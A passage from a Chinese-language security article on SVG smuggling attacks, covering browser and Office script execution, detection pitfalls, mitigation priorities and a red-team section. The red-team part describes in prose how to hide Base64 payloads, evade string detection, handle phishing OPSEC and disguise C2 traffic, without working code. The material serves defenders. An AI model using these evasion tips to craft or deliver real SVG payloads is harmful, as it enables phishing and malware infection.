A：是的。SVG 是基于 XML 的图形格式，支持 `<script>` 标签、`onload` 等事件属性、`<foreignObject>` 嵌入 HTML。当浏览器解析 SVG 文件时，遇到 `<script>` 标签会立即在 JavaScript 引擎中执行代码，与 HTML 中的 `<script>` 标签行为一致。这就是为什么 SVG 既能显示图形又能跑代码的原因。

### Q2：所有浏览器都会执行 SVG 中的脚本吗？

A：现代主流浏览器（Chrome、Edge、Firefox、Safari）默认会执行 SVG 中的脚本。但有以下例外：
- 直接作为 `` 引用的 SVG 不会执行脚本（浏览器安全限制）
- 通过 CSS `background-image` 引用的 SVG 不会执行脚本
- 在 `<object>`、`<embed>`、`<iframe>` 中加载的 SVG 会执行脚本
- 直接在浏览器地址栏打开的 SVG 文件会执行脚本
- 部分浏览器扩展（如 NoScript）可禁用 SVG 脚本

### Q3：杀毒软件能检测 SVG 中的恶意代码吗？

A：传统杀毒软件通常不深度解析 SVG 内容，仅基于文件扩展名与 MIME 类型识别。下一代 EDR 与邮件安全网关若启用 XML 解析功能，可识别 SVG 中的 `<script>` 标签、`<foreignObject>` 元素、事件属性等危险特征。建议部署专门的内容深度扫描方案。

### Q4：Office 文档中嵌入 SVG 真的会执行脚本吗？

A：取决于 Office 版本与配置。Office 2019+ 支持 SVG 图片插入，SVG 渲染基于 Chromium 内核，理论上会执行脚本。但 Office 应用有自身的安全沙箱：
- 默认禁用 SVG 中的脚本执行（Office 安全策略）
- 部分事件处理器仍可触发
- 配合 VBA 宏组合使用时风险更高
- 受保护视图（Protected View）中 SVG 脚本被禁用

### Q5：SVGZ 文件是什么？需要特别关注吗？

A：SVGZ 是 gzip 压缩的 SVG 文件，文件扩展名 `.svgz`，MIME 类型 `image/svg+xml`。SVGZ 本质上是压缩的 SVG，浏览器自动解压后解析。检测 SVGZ 时需要先解压再分析内容，部分检测工具默认不解压可能漏检。攻击者使用 SVGZ 主要为减小文件体积、规避基于 SVG 文本特征的检测。

### Q6：如何彻底防止 SVG 走私攻击？

A：彻底防止需要多层防御：
- 邮件网关：拦截所有 `.svg`/`.svgz` 附件（白名单例外）
- 端点：禁用文件资源管理器预览窗格中 SVG 渲染
- 浏览器：通过组策略禁用 SVG 脚本执行
- Office：在 Trust Center 禁用 SVG 中的脚本
- EDR：监控浏览器进程派生命令行解释器
- 用户培训：识别 SVG 文件风险，不随意打开

## 15. 检测陷阱与误报

### 15.1 常见误报源

1. **合法 SVG 资源**：现代 Web 应用大量使用 SVG 图标，正常 SVG 可能包含简单 `<script>` 用于交互
   - **缓解**：建立合法 SVG 资源白名单（基于 hash、来源域名）
2. **设计师工作流**：UI/UX 设计师处理 SVG 文件是常规操作
   - **缓解**：将设计师机器单独分组，调整检测阈值
3. **数据可视化**：图表库（D3.js、Chart.js）生成包含 JavaScript 的 SVG
   - **缓解**：识别合法可视化库的特征模式
4. **办公软件 SVG 插入**：员工在 Office 文档中插入 SVG 图标
   - **缓解**：识别 SVG 来源（微软官方图标库 vs 外部来源）

### 15.2 常见漏报源

1. **SVGZ 压缩格式**：未解压直接扫描，无法识别内部脚本
   - **缓解**：所有 SVG 检测规则强制先解压 SVGZ
2. **HTML 邮件内联 SVG**：仅扫描附件会漏掉 `data:image/svg+xml` 内联
   - **缓解**：扫描 HTML 邮件中的 data URI
3. **非标准扩展名**：SVG 文件被重命名为 `.xml`、`.txt`，文件内容仍是 SVG
   - **缓解**：基于文件内容（XML 声明 + `<svg>` 根元素）识别
4. **Office OLE 嵌入**：SVG 通过 OLE 对象嵌入 Office 文档，部分检测不深入 OLE
   - **缓解**：使用 oletools 等工具解析 OLE 结构
5. **资源管理器预览触发**：用户仅"选中"SVG 文件，预览窗格触发解析
   - **缓解**：监控 explorer.exe 加载 SVG 文件的事件

### 15.3 检测陷阱

- **仅检测 `.svg` 扩展名**：攻击者可改为 `.svgz`、`.xml`、任意扩展名，必须基于内容识别
- **仅检测 `<script>` 标签**：忽略 `onload`、`<foreignObject>`、XXE 等其他攻击向量
- **忽略浏览器派生进程**：SVG 触发的二级载荷执行才是真正危害，必须监控浏览器派生
- **忽略 Office 进程加载 SVG**：Office 文档中的 SVG 攻击易被忽略
- **未配置 SVG 解析器**：仅做字符串匹配会漏报编码混淆的 SVG 内容

## 16. 缓解优先级

### 优先级 P0（必须立即实施）

| 措施 | 防御效果 | 实施成本 |
|------|---------|---------|
| 邮件网关拦截所有 `.svg`/`.svgz` 附件 | 阻断主要投递通道 | 低 |
| 浏览器组策略禁用 SVG 脚本执行 | 从源头阻断执行环境 | 中 |
| EDR 监控浏览器派生命令行解释器 | 检测二级载荷执行 | 中 |

### 优先级 P1（建议季度内实施）

| 措施 | 防御效果 | 实施成本 |
|------|---------|---------|
| 邮件网关 SVG 内容深度扫描 | 识别危险标签与 XXE | 中 |
| 文件资源管理器禁用预览窗格 | 防止预览触发 | 低 |
| Office Trust Center 禁用 SVG 脚本 | 防止 Office 文档中 SVG 攻击 | 低 |
| AppLocker 限制浏览器下载目录执行 | 阻断 SVG 触发的二级载荷 | 中 |

### 优先级 P2（建议半年内实施）

| 措施 | 防御效果 | 实施成本 |
|------|---------|---------|
| 部署 SVG 内容深度解析器 | 结构化识别危险元素 | 高 |
| Web 应用 CSP 部署 | 阻止 SVG 内 JS 执行 | 中 |
| 监控 Office 进程加载 SVG | 检测 Office 文档中 SVG 攻击 | 高 |
| 用户安全意识培训 | 减少社工攻击成功 | 中 |

### 优先级 P3（持续优化）

| 措施 | 防御效果 | 实施成本 |
|------|---------|---------|
| 红队定期验证 SVG 检测能力 | 持续优化规则 | 中 |
| 威胁情报订阅（关注 APT SVG 工具链） | 提前预警新变种 | 中 |
| 监控浏览器新版本 SVG 安全特性 | 跟进浏览器安全更新 | 低 |

## 17. 红队视角

> **免责声明**：以下内容仅用于合法的安全测试、渗透测试和教育目的。未经授权对他人系统进行测试是违法行为。

### 17.1 实战技巧

1. **SVG 构造策略**：
   - 首选 `<script>` 标签内嵌 JavaScript（执行最可靠）
   - 规避基于 `<script>` 检测时，使用 `<foreignObject>` 嵌入完整 HTML
   - 进一步规避时使用 `onload` 等事件属性
   - 高隐蔽需求时使用 `<use href="远程SVG">` 加载远程载荷

2. **载荷编码技巧**：
   - Base64 编码 PE 文件嵌入 SVG，规避文件类型检测
   - 使用 `atob()` + Blob API 在浏览器中解码并触发下载
   - 配合 SVGZ 压缩进一步减小文件体积、规避字符串检测

3. **投递通道选择**：
   - 钓鱼邮件附件：伪装为"图片"、"截图"、"设计稿"
   - 即时通讯：通过 Slack/Teams 发送，绕过邮件网关
   - LinkedIn 等社交平台：在招聘诈骗中投递"职位描述"
   - 恶意网页：通过 SEO 投毒引导目标访问

4. **OPSEC 注意事项**：
   - SVG 文件大小应与伪装目标匹配（不要 50KB 的"图片"）
   - 文件元数据（创建时间、作者）应合理
   - 触发的二级载荷下载应模拟合法下载行为（避免立即执行）
   - C2 通信应伪装为合法 Web 流量

5. **对抗检测技巧**：
   - 使用 CDATA 段包裹 JavaScript，规避字符串匹配
   - 多种事件属性组合（`onload`、`onbegin`、`onerror`），单一检测规则难以覆盖
   - 使用非标准命名空间前缀
   - SVG 文件中混入合法图形内容，使文件看起来像真实图片

### 17.2 常用工具

| 工具名称 | 用途 | 平台 | 链接 |
| -------- | ---- | ---- | ---- |
| Inkscape | SVG 编辑器（构造合法外观） | 全平台 | [Inkscape](https://inkscape.org/) |
| svgo | SVG 优化工具（混淆结构） | 全平台 | [svgo](https://github.com/svg/svgo) |
| svg-sanitizer | SVG 危险元素清理（反向研究） | 全平台 | [svg-sanitizer](https://github.com/darylldoyle/svg-sanitizer) |
| lxml | Python XML 解析库（脚本生成） | 全平台 | [lxml](https://lxml.de/) |
| Atomic Red Team | 检测规则测试 | 全平台 | [Atomic Red Team](https://github.com/redcanaryco/atomic-red-team) |
| Cobalt Strike | C2 框架（配合 SVG 投递） | Windows | [Cobalt Strike](https://www.cobaltstrike.com/) |

### 17.3 与蓝队对抗的要点

1. **不要仅依赖 `<script>` 标签**：单一攻击向量易被检测，应组合使用多种 SVG 特性
2. **关注浏览器版本**：不同浏览器对 SVG 安全策略有差异，目标环境调研重要
3. **避免固定 IOC**：相同的 SVG 模板生成的文件 hash 一致，应加入随机化元素
4. **测试检测能力**：使用 Atomic Red Team 的 T1027 测试用例验证目标 EDR 检测能力
5. **关注 Office 安全配置**：受保护视图、宏禁用等设置会影响 SVG 攻击效果
6. **网络层伪装**：SVG 触发的 fetch 请求应伪装为合法 API 调用，使用常见 CDN 域名
